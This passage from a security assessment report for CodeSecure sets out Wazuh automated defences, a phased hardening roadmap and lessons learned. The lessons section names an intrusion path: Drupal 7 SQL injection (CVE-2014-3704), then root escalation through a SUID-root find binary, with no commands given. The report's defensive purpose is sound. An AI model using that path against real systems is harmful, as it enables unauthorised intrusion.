* **Linux Automated IP Block:** Drops source IPs for 10 minutes upon detecting brute-force attempts or SQL Injection patterns.
* **Blacklist Enforcement:** Immediately drops traffic from known malicious threat actor IPs for 60 seconds upon first packet detection.
* **YARA Malware Scan Integration:** Triggers automated YARA scans upon file creation or modification in monitored paths (`/var/www`, `/home`). Detected malware is automatically isolated into a secure quarantine folder.
* **File Integrity Monitoring (FIM):** Tracks real-time additions, modifications, or deletions across critical system files (`/etc/passwd`, `/etc/shadow`, system binaries).

---

## 7. Implementation Recommendations Roadmap (Short, Mid, Long-Term)

To provide CodeSecure's executive board with a practical execution path, security controls are prioritized across three implementation windows based on risk urgency and operational effort:

```
+-----------------------------------------------------------------------------------+
|                        CODESECURE IMPLEMENTATION ROADMAP                          |
+-----------------------------------------------------------------------------------+
| 🚨 SHORT-TERM (0 - 30 Days)  | Immediate Remediation & Perimetric Control         |
| 🛡️ MID-TERM (30 - 90 Days)   | Network Isolation, Active EDR & Directory Hardening|
| 🎯 LONG-TERM (90 - 180+ Days) | Governance, MFA Enforcement & Compliance Maturity  |
+-----------------------------------------------------------------------------------+
```

### 🚨 Short-Term Implementations (Immediate / 0–30 Days)
* **Retire Legacy Systems (DC-1):** Decommission unpatched Debian 7 / Drupal 7 legacy instances immediately; migrate hosted web services to hardened Debian 13 containers behind Nginx.
* **Deploy Perimeter Reverse Proxy & WAF:** Route all inbound port 80/443 traffic through Nginx with ModSecurity v3 and OWASP Core Rule Set (CRS) enabled in blocking mode.
* **Enforce Password & Lockout GPOs:** Apply Active Directory GPOs enforcing 12-character complex passwords and 3-attempt account lockout rules across all corporate user accounts.
* **Hardened SSH Access:** Shift all Linux administrative SSH access to port `2222`, disable password authentication, enforce key-only logins, and block direct root SSH sessions.
* **Perimeter Firewall Default-Deny:** Enforce default-deny inbound and outbound rules on pfSense with strict WAN DNAT port forwarding.

### 🛡️ Mid-Term Implementations (30–90 Days)
* **Full Network VLAN Segmentation:** Enforce VLAN isolation across DMZ (80/70), Dev (10), HR (20), Helpdesk (30), and Datacenter (99) with inter-VLAN layer 3 ACLs.
* **Switch Layer 2 Port Security:** Configure `switchport port-security`, DHCP Snooping, and Dynamic ARP Inspection (DAI) across all edge distribution switches.
* **Deploy Centralized Wazuh SIEM & EDR:** Install Wazuh Agents across all Linux servers, Windows DCs, and employee endpoints; configure automated active response for IP blocking.
* **Active Directory Software Restriction Policies (SRP):** Enforce GPOs blocking binary and script executions within `%APPDATA%` and `%TEMP%` user directories.
* **YARA Malware Automation:** Integrate automated YARA scanning triggers with Wazuh for real-time web root (`/var/www`) file inspection and quarantine.
* **ZTNA Twingate connectors to remote network access** Alternative to VPN's keeping audits compliance for networking remote access.
* 
### 🎯 Long-Term Implementations (90–180+ Days)
* **Enforce Multi-Factor Authentication (MFA / TOTP):** Mandate hardware token or TOTP MFA across all administrative SSH sessions, VPN access, and Active Directory logins.
* **Automated Vulnerability Management:** Integrate OpenVAS continuous vulnerability scanners into the Wazuh dashboard for automated weekly patch delta reporting.
* **Formalize Incident Response Plan (IRP):** Establish documented incident response playbooks and conduct quarterly tabletop breach simulation exercises with technical teams.
* **Regulatory Compliance Audit Alignment:** Align technical controls with NIST CSF 2.0 and conduct pre-audit assessments for GDPR data privacy and ISO 27001 readiness.

---

## 8. Lessons Learned & Key Architectural Takeaways

The technical evaluation and defense implementation yielded crucial takeaways for enterprise security management:

1. **Defense-in-Depth Prevents Single-Point Breaches:** A perimeter breach on a web application (e.g., SQLi on Drupal 7) is catastrophic on a flat network. However, when combined with VLAN segmentation, DMZ isolation, and database encryption, the impact is strictly localized.
2. **Legacy Infrastructure Is an Immediate Liability:** Running outdated, end-of-life operating systems (Debian 7) and CMS platforms (Drupal 7) exposes enterprises to trivial, public-domain exploits (`CVE-2014-3704`). Timely deprecation and containerized migration are mandatory.
3. **Least Privilege & Configuration Hygiene Are Mandatory:** SUID binary misconfigurations (such as `/usr/bin/find` having root SUID) transform unprivileged access (`www-data`) into instantaneous root system compromise (`uid=0`). Routine SUID audits and file integrity monitoring (FIM) are indispensable.
4. **Automated Active Response Is Critical for EDR:** Manual log analysis cannot match the speed of automated exploits. Integrating Wazuh active response with automated firewall drops and YARA malware quarantine drastically reduces threat actor dwell time.
5. **Centralized Identity Control Simplifies Compliance:** Enforcing strict, automated GPOs for password complexity, account lockouts, and software restriction policies significantly reduces the employee attack surface against credential harvesting and phishing attacks.

---
*Report prepared for CodeSecure, Lda. Infrastructure & Cybersecurity Committee.*
